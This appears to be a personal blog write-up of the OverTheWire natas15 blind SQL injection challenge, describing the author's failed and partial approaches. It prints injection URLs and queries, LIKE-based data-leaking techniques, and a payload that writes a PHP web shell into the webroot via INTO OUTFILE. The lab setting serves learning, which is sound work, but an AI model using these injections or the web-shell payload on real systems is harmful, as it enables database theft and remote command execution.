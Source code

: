 ```yaml
---
layout: post
title: natas15 writeup
date: 2017-12-28
categories : ['writeup']
---
```

## Overview / TL;DR  
* As said in the description, this is **<u>NOT</u>** a writeup, there are many writeups online that get straight to the point <s>(how2solve challenge pls)</s> which unfortunately this gist is not :books:
  
* I didn't solve the challenge mainly because I got ahead of myself and <u>missed a crucial detail</u> in one of the many approcahes I took, in a sense I dived too deep down a rabbit hole which closed me off from the real answer, while I was digging deeper for one that simply wasn't there 
  
* _natas15_ is a `Blind SQL Injection` challenge, which I did not have knowledge of before *(but I do now)*, in fact the only SQLi I knew of before this was the simple auto bypass method (basically `' OR 1=1; -- `), so I'm actually glad I did this challenge til the very end because I ended up learning a lot !

<div class="divider"></div>

## Wtf is a "Blind" SQL Injection ?
> It's basically an SQL Injection but under the circumstances where the results aren't returned directly to you
  
* More often than not you will only get responses along the lines of:  

  |:---------------------------------|--------------------:|
  | The query didn't return anything | (which means **False** :negative_squared_cross_mark:) |
  |The query returned a row/ or multiple rows | (which means **True** :ballot_box_with_check:) |
  |An error in your query :interrobang: | (which also might return nothing) |      

 <br/> 
* As you can imagine it makes things a lot harder for an attacker (but not imppossible), as they can only ask the database True/False questions

<br/>   
<br/>   
   
___  

An example implementation in the *natas15* sourcecode:
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
if(array_key_exists("debug", $_GET)) {         // ^^^^^^^^^^^^^^^^^^    
  
        echo "Executing query: $query<br>";
}

$res = mysql_query($query, $link);
if($res) {
        if(mysql_num_rows($res) > 0) {
                echo "This user exists.<br>";
        } else {
                echo "This user doesn't exist.<br>";
        }
} else {
        echo "Error in query.<br>";
} 
```
> :warning: In this case the *<u>username</u>* variable is exploitable as it isn't being sanitized properly

<div class="divider"></div>
## What I did at the beginning
##### Although this approach was incorrect it taught me a lot about the UNION and INTO OUTFILE clauses and how they can be abused    
  
One of my first ideas was that since the results weren't returned directly to the user, I could use `UNION` to link a new select statement which would ignore the old results and dump any new results into a temporary file to be read later. The many possible issues with this approach is :
* The user currently executing the query may not have write access 
* The file has to be written to somewhere accessible by the user and within the webroot directory 
* The user has to have the privileges (in this case `FILE` privileges) to even use commands like `LOAD FILE` or `INTO OUTFILE`

Example URL:
```sql
http://natas15.natas.labs.overthewire.org/?username=" AND 1=2 UNION SELECT * INTO OUTFILE '/tmp/out' FROM users ; --
```
Server-side query:
```sql
SELECT * from users where username="" AND 1=2 UNION SELECT * INTO OUTFILE '/tmp/out' FROM users ; -- "
```

**<u>Side Note</u>**: A more dangerous version of this injection would be similar to:
```sql
SELECT * from users where username="" AND 1=2 UNION SELECT '1','<?php system($_GET['cmd']) ?>' INTO OUTFILE '/whateverpath/directory/script.php'; -- 
```
which basically stores a PHP script containing a shell that you can then use to execute arbitrary commands on


I executed variations of this query mutliple times to no success, so I began to suspect that this user account had very limited privileges, unfortunately I was right 

<div class="divider"></div>
## Using the built-in functions
##### mySQL has very handy functions like user() that returns who the current user is, version() that returns the running version , etc ...
##### I also found out that SQL supports the LIKE clause, which is perfect for avoiding true equality "=" 
<br/>
Starting off with a simple query like this :  
`SELECT * from users where username="`**`" OR user() LIKE "%`**`"`
*  **%** when used alone matches everything so the expression `user() LIKE "%"` is basically saying <u>user() matches </u>_<u>ANYTHING</u>_, which is true as long as the thing that `user()` returns is not NULL
  
*  **%** when used with other characters will also match up to a certain pattern such as `"%a"` matching everything that ends with `"a"` and `"a%"` matching everything starting with `"a"`
  
* The **_** character functions similarly to `"."` in regex. It matches any character, so as you can see in the gif below, it can be used to guess the length of a certain field, while combined with the **%** character can also be used to match patterns

![Underscore](/assets/images/natas15-1.gif)

(After guessing the value of a certain field the `LIKE` can be replaced with `=` to ensure the correct value, since the query would evaluate to False otherwise)

![Guess](/assets/images/natas15-2.gif)

* Using trial-and-error method or even a brute-force method its a slow but surefire method of leaking useful data from the database such as 
  
  - <u>The current user</u> (as shown above)
    
  - <u>What privileges this user had</u>   
    (USAGE = no privileges besides logging in and SELECT'ing)
    ![Usage](/assets/images/natas15-3.gif)

  - <u>The version of mySQL running</u>

     URL: 
     ```sql
     http://natas15.natas.labs.overthewire.org/?username=" OR @@version LIKE "5.5.55-0%2Bdeb8u1& debug (%2B = +)
     ```
     Query: 
     ```sql
     SELECT * from users where username="" OR @@version LIKE "5.5.55-0+deb8u1"
     ```
     
  - <u>The dummy user accounts being used</u>
    ![pw](/assets/images/natas15-4.jpg)
<div class="divider"></div>
## I was stupid 

This is where I screwed up, I had already acquired a method to leak usernames and passwords from the *__users__* table, but somehow <u>it never occured to me to look for a user called </u>_**<u>natas16</u>**_, instead my smart-ass brain kept pestering me to find a way to execute arbitrary commands so I could `cat` the password file:`/etc/natas_webpass/natas16` :confused:

<br/>

Although I did most of this brute-forcing stuff by hand (since it was fairly short) a proper script is recommended for brute-forcing the password since it is 32 characters long and there are `26 lowercase letters + 26 uppercase + 10 digits = 62` possible characters for each of the 32 character slots, which is `62 ^ 32` possible combinations
